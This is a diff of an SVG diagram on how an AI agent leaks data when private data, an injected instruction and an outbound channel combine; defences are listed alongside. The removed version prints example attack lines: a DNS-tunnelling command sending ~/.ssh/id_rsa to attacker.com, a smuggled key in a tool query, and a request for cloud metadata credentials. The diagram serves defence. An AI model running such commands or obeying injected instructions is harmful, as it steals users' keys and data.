

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 460" width="100%" height="100%" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 860 310" width="100%" height="100%" font-family="Helvetica Neue, Helvetica, Arial, sans-serif">
  <defs>
-     <marker id="arr-navy" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
-       <path d="M0,0 L8,3 L0,6 Z" fill="#1e293b" />
+     <marker id="arr-gray" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#64748b" />
    </marker>
-     <marker id="arr-burgundy" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
-       <path d="M0,0 L8,3 L0,6 Z" fill="#991b1b" />
-     </marker>
-     <marker id="arr-teal" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
-       <path d="M0,0 L8,3 L0,6 Z" fill="#0f766e" />
+     <marker id="arr-red" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto">
+       <path d="M0,0 L8,3 L0,6 Z" fill="#dc2626" />
    </marker>
  </defs>
-   <rect width="960" height="460" fill="#ffffff" />
-   <g transform="translate(24, 20)">
-     <rect width="912" height="190" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
-     <rect width="912" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
-     <text x="14" y="19" font-size="9" font-weight="700" fill="#1e293b" letter-spacing="0.5">THE DATA EXFILTRATION CONJUNCTION: S_priv ∧ I_inject ∧ C_egress</text>
-     <g transform="translate(15, 38)">
-       <rect width="270" height="138" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1.2" />
-       <rect width="270" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">1. Sensitive Context Residency (S_priv)</text>
-       <text x="8" y="32" font-size="7.2" fill="#475569">Target of value resident in agent memory:</text>
-       <text x="14" y="46" font-family="monospace" font-size="7" fill="#334155">• Private source code / IP</text>
-       <text x="14" y="58" font-family="monospace" font-size="7" fill="#334155">• Database records &amp; customer PII</text>
-       <text x="14" y="70" font-family="monospace" font-size="7" fill="#334155">• Session tokens &amp; SSH credentials</text>
-       <rect x="8" y="82" width="254" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
-       <text x="135" y="96" font-size="7" font-weight="700" fill="#166534" text-anchor="middle">Defensive Countermeasure</text>
-       <text x="135" y="108" font-size="6.8" fill="#166534" text-anchor="middle">Zero Ambient Credentials in sandbox</text>
-       <text x="135" y="120" font-size="6.8" fill="#166534" text-anchor="middle">Opaque blob handles ($blob_id)</text>
-     </g>
-     <text x="299" y="112" font-size="16" font-weight="700" fill="#991b1b" text-anchor="middle">∧</text>
-     <g transform="translate(321, 38)">
-       <rect width="270" height="138" rx="3" fill="#ffffff" stroke="#991b1b" stroke-width="1.2" />
-       <rect width="270" height="20" rx="3" fill="#fee2e2" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#991b1b">2. Injected Adversarial Instruction (I_inject)</text>
-       <text x="8" y="32" font-size="7.2" fill="#475569">Untrusted data payload steering reasoning:</text>
-       <text x="14" y="46" font-family="monospace" font-size="7" fill="#991b1b">• Indirect prompt injection in web page</text>
-       <text x="14" y="58" font-family="monospace" font-size="7" fill="#991b1b">• Malicious pull request comment</text>
-       <text x="14" y="70" font-family="monospace" font-size="7" fill="#991b1b">• Poisoned dependency documentation</text>
-       <rect x="8" y="82" width="254" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
-       <text x="135" y="96" font-size="7" font-weight="700" fill="#166534" text-anchor="middle">Defensive Countermeasure</text>
-       <text x="135" y="108" font-size="6.8" fill="#166534" text-anchor="middle">Quarantined Reader (Dual-LLM)</text>
-       <text x="135" y="120" font-size="6.8" fill="#166534" text-anchor="middle">Grammar-constrained JSON decode</text>
-     </g>
-     <text x="605" y="112" font-size="16" font-weight="700" fill="#991b1b" text-anchor="middle">∧</text>
-     <g transform="translate(627, 38)">
-       <rect width="270" height="138" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1.2" />
-       <rect width="270" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">3. Outbound Egress Channel (C_egress)</text>
-       <text x="8" y="32" font-size="7.2" fill="#475569">Pathway to transmit bits to external host:</text>
-       <text x="14" y="46" font-family="monospace" font-size="7" fill="#334155">• Parameter smuggling in authorized APIs</text>
-       <text x="14" y="58" font-family="monospace" font-size="7" fill="#334155">• Covert DNS tunneling (UDP 53)</text>
-       <text x="14" y="70" font-family="monospace" font-size="7" fill="#334155">• Direct socket / HTTP POST egress</text>
-       <rect x="8" y="82" width="254" height="46" rx="2" fill="#f0fdf4" stroke="#86efac" stroke-width="0.8" />
-       <text x="135" y="96" font-size="7" font-weight="700" fill="#166534" text-anchor="middle">Defensive Countermeasure</text>
-       <text x="135" y="108" font-size="6.8" fill="#166534" text-anchor="middle">Dynamic Taint Tracking on sinks</text>
-       <text x="135" y="120" font-size="6.8" fill="#166534" text-anchor="middle">Split-horizon DNS + port 53 drop</text>
-     </g>
-   </g>
-   <g transform="translate(24, 226)">
-     <rect width="912" height="214" rx="4" fill="#f8fafc" stroke="#1e293b" stroke-width="1.5" />
-     <rect width="912" height="28" rx="4" fill="#f1f5f9" stroke="#1e293b" stroke-width="1.5" />
-     <text x="14" y="19" font-size="9" font-weight="700" fill="#1e293b" letter-spacing="0.5">COVERT CHANNEL TAXONOMY &amp; SYSTEMS REMEDIATION</text>
-     <g transform="translate(15, 38)">
-       <rect width="280" height="162" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <rect width="280" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">A. Tool Parameter Smuggling</text>
-       <text x="8" y="32" font-size="7" fill="#475569">Attacker encodes stolen secret into normal API call:</text>
-       <rect x="8" y="40" width="264" height="34" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-       <text x="12" y="52" font-family="monospace" font-size="6.8" fill="#991b1b">search_docs(query="leak_" + hex(KEY))</text>
-       <text x="12" y="66" font-family="monospace" font-size="6.8" fill="#7f1d1d">Target: legitimate public registry log</text>
-       <text x="8" y="88" font-size="7.2" font-weight="700" fill="#0f766e">Enforced Systems Control:</text>
-       <text x="8" y="102" font-size="7" fill="#334155">1. Entropy profiling: H(X) &gt; 4.5 bits/char flagged</text>
-       <text x="8" y="114" font-size="7" fill="#334155">2. Regex secret mask: Redacts AKIA, ghp_, PEM keys</text>
-       <text x="8" y="126" font-size="7" fill="#334155">3. Reference substitution: Pass $ref_3, not raw text</text>
-       <rect x="8" y="136" width="264" height="18" rx="2" fill="#f0fdf4" />
-       <text x="140" y="148" font-size="6.8" font-weight="700" fill="#166534" text-anchor="middle">Verdict: Intercepted by Reference Monitor</text>
-     </g>
-     <g transform="translate(316, 38)">
-       <rect width="280" height="162" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <rect width="280" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">B. DNS Tunneling (UDP Port 53)</text>
-       <text x="8" y="32" font-size="7" fill="#475569">Exfiltration over recursive domain name queries:</text>
-       <rect x="8" y="40" width="264" height="34" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-       <text x="12" y="52" font-family="monospace" font-size="6.8" fill="#991b1b">dig $(xxd -p ~/.ssh/id_rsa).attacker.com</text>
-       <text x="12" y="66" font-family="monospace" font-size="6.8" fill="#7f1d1d">Bypasses standard TCP/HTTP firewall blocks</text>
-       <text x="8" y="88" font-size="7.2" font-weight="700" fill="#0f766e">Enforced Systems Control:</text>
-       <text x="8" y="102" font-size="7" fill="#334155">1. Split-horizon DNS: Drop public recursors (8.8.8.8)</text>
-       <text x="8" y="114" font-size="7" fill="#334155">2. Static host injection: Hardcode /etc/hosts at boot</text>
-       <text x="8" y="126" font-size="7" fill="#334155">3. iptables -A FORWARD -p udp --dport 53 -j DROP</text>
-       <rect x="8" y="136" width="264" height="18" rx="2" fill="#f0fdf4" />
-       <text x="140" y="148" font-size="6.8" font-weight="700" fill="#166534" text-anchor="middle">Verdict: Silent Kernel Drop at Bridge Interface</text>
-     </g>
-     <g transform="translate(617, 38)">
-       <rect width="280" height="162" rx="3" fill="#ffffff" stroke="#cbd5e1" stroke-width="1" />
-       <rect width="280" height="20" rx="3" fill="#f1f5f9" />
-       <text x="8" y="14" font-size="8" font-weight="700" fill="#1e293b">C. Instance Metadata Service (IMDS)</text>
-       <text x="8" y="32" font-size="7" fill="#475569">Targeting hypervisor host IAM credentials:</text>
-       <rect x="8" y="40" width="264" height="34" rx="2" fill="#fee2e2" stroke="#fca5a5" stroke-width="0.8" />
-       <text x="12" y="52" font-family="monospace" font-size="6.8" fill="#991b1b">GET http://169.254.169.254/latest/meta-data/</text>
-       <text x="12" y="66" font-family="monospace" font-size="6.8" fill="#7f1d1d">Steals host hypervisor role tokens</text>
-       <text x="8" y="88" font-size="7.2" font-weight="700" fill="#0f766e">Enforced Systems Control:</text>
-       <text x="8" y="102" font-size="7" fill="#334155">1. Link-local filter: Block 169.254.169.254/32</text>
-       <text x="8" y="114" font-size="7" fill="#334155">2. IMDSv2 mandatory: Hop limit = 1 prevents VM leap</text>
-       <text x="8" y="126" font-size="7" fill="#334155">3. Egress proxy: Allowlist destinations strictly</text>
-       <rect x="8" y="136" width="264" height="18" rx="2" fill="#f0fdf4" />
-       <text x="140" y="148" font-size="6.8" font-weight="700" fill="#166534" text-anchor="middle">Verdict: TCP Connection Refused</text>
-     </g>
-   </g>
+   <rect width="860" height="310" fill="#ffffff" />
+   <text x="120" y="24" text-anchor="middle" font-size="8.5" font-weight="700" fill="#64748b">CONNECTION ON THIS PATH</text>
+   <text x="360" y="24" text-anchor="middle" font-size="8.5" font-weight="700" fill="#64748b">ONE WAY TO REMOVE IT</text>
+   <text x="575" y="24" text-anchor="middle" font-size="8.5" font-weight="700" fill="#64748b">WHEN ALL ARE NEEDED</text>
+   <rect x="20" y="40" width="200" height="70" rx="3" fill="#dcfce7" stroke="#16a34a" stroke-width="1.5" />
+   <text x="120" y="68" text-anchor="middle" font-size="9.5" font-weight="700" fill="#15803d">Private data in reach</text>
+   <text x="120" y="86" text-anchor="middle" font-size="8.5" fill="#0f172a">fixture read for local tests</text>
+   <rect x="20" y="130" width="200" height="70" rx="3" fill="#fee2e2" stroke="#dc2626" stroke-width="1.5" />
+   <text x="120" y="158" text-anchor="middle" font-size="9.5" font-weight="700" fill="#b91c1c">Attacker-controlled content</text>
+   <text x="120" y="176" text-anchor="middle" font-size="8.5" fill="#0f172a">instruction in the README</text>
+   <rect x="20" y="220" width="200" height="70" rx="3" fill="#fef3c7" stroke="#d97706" stroke-width="1.5" />
+   <text x="120" y="248" text-anchor="middle" font-size="9.5" font-weight="700" fill="#b45309">Outbound recipient</text>
+   <text x="120" y="266" text-anchor="middle" font-size="8.5" fill="#0f172a">external package-search service</text>
+   <path d="M220,75 H258" fill="none" stroke="#64748b" stroke-width="1.2" marker-end="url(#arr-gray)" />
+   <path d="M220,165 H258" fill="none" stroke="#64748b" stroke-width="1.2" marker-end="url(#arr-gray)" />
+   <path d="M220,255 H258" fill="none" stroke="#64748b" stroke-width="1.2" marker-end="url(#arr-gray)" />
+   <rect x="260" y="40" width="200" height="70" rx="3" fill="#ffffff" stroke="#16a34a" stroke-width="1.2" stroke-dasharray="4,2" />
+   <text x="360" y="62" text-anchor="middle" font-size="9.5" font-weight="700" fill="#0f172a">Protected test runner</text>
+   <text x="360" y="79" text-anchor="middle" font-size="8.5" fill="#475569">returns a result, not fixture bytes;</text>
+   <text x="360" y="94" text-anchor="middle" font-size="8.5" fill="#475569">handles resolved under policy</text>
+   <rect x="260" y="130" width="200" height="70" rx="3" fill="#ffffff" stroke="#16a34a" stroke-width="1.2" stroke-dasharray="4,2" />
+   <text x="360" y="158" text-anchor="middle" font-size="9.5" font-weight="700" fill="#0f172a">Quarantined reader</text>
+   <text x="360" y="176" text-anchor="middle" font-size="8.5" fill="#475569">narrows raw-instruction exposure</text>
+   <rect x="260" y="220" width="200" height="70" rx="3" fill="#ffffff" stroke="#16a34a" stroke-width="1.2" stroke-dasharray="4,2" />
+   <text x="360" y="248" text-anchor="middle" font-size="9.5" font-weight="700" fill="#0f172a">Egress boundary</text>
+   <text x="360" y="266" text-anchor="middle" font-size="8.5" fill="#475569">no external search for this subtask</text>
+   <path d="M460,75 H575 V108" fill="none" stroke="#64748b" stroke-width="1.2" marker-end="url(#arr-gray)" />
+   <path d="M460,165 H498" fill="none" stroke="#64748b" stroke-width="1.2" marker-end="url(#arr-gray)" />
+   <path d="M460,255 H575 V222" fill="none" stroke="#64748b" stroke-width="1.2" marker-end="url(#arr-gray)" />
+   <rect x="500" y="110" width="150" height="110" rx="3" fill="#f3e8ff" stroke="#7c3aed" stroke-width="1.5" />
+   <text x="575" y="148" text-anchor="middle" font-size="9.5" font-weight="700" fill="#6d28d9">Dependency +</text>
+   <text x="575" y="163" text-anchor="middle" font-size="9.5" font-weight="700" fill="#6d28d9">recipient check</text>
+   <text x="575" y="182" text-anchor="middle" font-size="8.5" fill="#475569">before dispatch</text>
+   <path d="M650,165 H688" fill="none" stroke="#dc2626" stroke-width="1.5" stroke-dasharray="4,2" marker-end="url(#arr-red)" />
+   <rect x="690" y="130" width="150" height="70" rx="3" fill="#fee2e2" stroke="#dc2626" stroke-width="1.5" />
+   <text x="765" y="158" text-anchor="middle" font-size="9.5" font-weight="700" fill="#b91c1c">Disclosure</text>
+   <text x="765" y="176" text-anchor="middle" font-size="8.5" fill="#0f172a">fixture reaches the service</text>
</svg>
